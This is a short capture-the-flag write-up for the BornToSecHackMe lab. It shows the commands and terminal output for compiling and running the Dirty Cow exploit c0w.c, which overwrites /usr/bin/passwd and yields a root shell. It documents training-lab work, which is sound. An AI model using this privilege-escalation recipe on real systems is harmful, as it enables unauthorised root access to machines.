 # Bonus: Another dirty cow!    
We start with writeup1 after logging in as **laurie**.  
We will use the Dirty Cow exploit again, with another way. With the exploit c0w.c.  
We have to uncomment the correct payload for x86 inside the cow code.    

This dirty cow version will not add a new user but will change the binary /usr/bin/passwd.   
If we run the binary code it will open the root shell.

```
laurie@BornToSecHackMe:$ cd /tmp
laurie@BornToSecHackMe:/tmp$ vim c0w.c
laurie@BornToSecHackMe:/tmp$ gcc -pthread c0w.c  -o c0w
laurie@BornToSecHackMe:/tmp$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap b7e04000

madvise 0

ptrace 0
```
Now just call /usr/bin/passwd
```
laurie@BornToSecHackMe:/tmp$ /usr/bin/passwd
root@BornToSecHackMe:/tmp#
root@BornToSecHackMe:/root# cat README
CONGRATULATIONS !!!!
To be continued...
```
**🏁 Finally we are Root**
